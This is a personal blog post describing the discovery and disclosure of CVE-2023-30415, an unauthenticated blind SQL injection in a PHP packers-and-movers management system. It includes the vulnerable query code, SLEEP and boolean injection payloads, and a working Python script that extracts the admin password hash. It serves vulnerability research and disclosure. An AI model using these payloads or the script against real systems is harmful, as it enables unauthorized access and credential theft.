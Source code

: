 ```yaml
---
layout: post
title: Getting my first CVE
description: The frustrations and thrills of open source code review.
summary: An OSWE victory lap.
tags: reflections tutorials
---
```



After passing my OSWE in March and dealing with some long neglected life issues, I decided to put my skills to the test and hunt for a CVE. It felt like a rite of passage for OSWE passers. 

**Recon**

My first approach was to find projects written in languages that are easy to make mistakes in but that are also very popular. PHP is the prime candidate here, so I looked up php open source projects on google and quickly discovered sourcecodetester.com among the first results.

![](/assets/images/sourcecodetester.png)

I started perusing through random projects and downloading them locally to run them. This approach netter me a substantial number of critical findings, but whenever I wanted to report them to MITRE, I would find out that they were already assigned a CVE. Nonetheless, it was a nice confidence booster that I was able to find those vulnerabilities so easily. 

This meant I had to up my game a bit. I had to look for projects that were at least somewhat secure. After a more careful analysis, I found the [Packers and Movers Management system](https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html)

What caught my attention on this project was that the admin pages called in a header function that itself was checking for session. 


![](/assets/images/header.png)

![](/assets/images/session.png)


This was good news, it meant that whoever designed this took some authorization considerations into account.

**Exploit Discovery**

I took a shortcut here, and instead of following user input paths like I normally do, I went straight to the source code and searched for "query" in an attempt to grab an easy win. 

![](/assets/images/query.png)

I found some results, but they were all behind the dreaded admin login, which would drastically reduce the impact of those findings.

However, upon a closer inpection, I quickly realized that the header function was only used for the direct subpages of /admin, but would often not be used deeper into the application.

As an example, /admin/index.php uses the header, but /admin/inquiries/view_inquiry.php does not and also uses an unsanitized query right at the start of the file!

![](/assets/images/inquiry.png)

I was able to locate this particular piece of code in the application.

![](/assets/images/page.png)

This meant that any input after the id parameter would pass unfiltered through these 2 lines:
```php
    $conn->query("UPDATE `inquiry_list` set `status` = 1 where id = '{$_GET['id']}'");
    $qry = $conn->query("SELECT **  from `inquiry_list` where id = '{$_GET['id']}'");
```

Since view_inquiry.php does not use the session header, it means that we can attack the id parameter without any need for authentication. 

Let's test it with a classic SLEEP payload:

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))test)--+
```

![](/assets/images/sleep.png)

Looking at the response time, we can see it took just over 8 seconds, which happens because the id parameter is passed through two querries. That confirms our Blind SQL Injection.

Let's experiment with some more payloads and look if there are any differences in the content length.

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=48)--+ 
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=47)--+ 
```

![](/assets/images/fuzz1.png)
![](/assets/images/fuzz2.png)

It does look like we get different content lengths when the exploit fails to execute. This means we can start working on an exploit right away.

**The Exploit**

The exploit is actually surprisingly simple. I ended up pruning the GET request of all uneccessary headers to get the request size down, wrote a for loop for the Blind SQL Injection and then a get_token function to store the token. Here it is:

```python
import requests

session = requests.session()

expected_size = 26845

def get_char(session, pos):
    for char in range(32, 126):
        sql_payload = f'\' AND (ascii(substring((SELECT password FROM mpms_db.users WHERE id=1 LIMIT 1),{pos},1))={char})-- '
        r = session.get('http://localhost:80/mpms/admin/?page=inquiries/view_inquiry&id=4' + sql_payload)
        #print(len(r.content))
        if len(r.content) == expected_size:
            return chr(char)
    print('Error at ' + str(char))
    exit()

def get_token(session):
    token = ""
    for pos in range(1, 33):
        token += get_char(session, pos)
    print("The Full MD5 password is " + str(token))    
    return token

get_token(session)
```

All that preparation for 25 lines of code. Let's run it and wait a few seconds:

![](/assets/images/exploit.png)

We now have our MD5 password. Passing it through an online hash cracker, we get the password admin123:

![](/assets/images/exploit.png)

Which is exactly the password used in the source page:

![](/assets/images/cracked.png)

![](/assets/images/source.png)

**The Report**

With those proofs in hand, I used the CVE MITRE website to complete the form and report the CVE via [https://www.cve.org/ReportRequest/ReportRequestForNonCNAs](https://www.cve.org/ReportRequest/ReportRequestForNonCNAs).


After about a month, I received my CVE ID, CVE-2023-30415

![](/assets/images/cve.png)

I have emailed sourcecodester.com with a detailed explanation of the exploit and the proof of concept. Considerably way over 90 days have passed since, so this is me making it public as according to the reasonable disclosure procedure.

Overall, I had a lot of fun finding my first CVE, as trivial as it was. It helped me developed my own confidence and ability to quickly scan code repos for common mistakes. I have been busy with other interests lately but I have managed to secure a decent amount of AppSec and code review engagements at work, so I have been doing my best to keep learning and hone my skills even if I am not actively hunting for CVEs. I would recommend any aspiring AppSec hacker to have a go at it, even if you don't manage to secure a CVE, just finding some vulnerabilities will do wonders for your confidence.

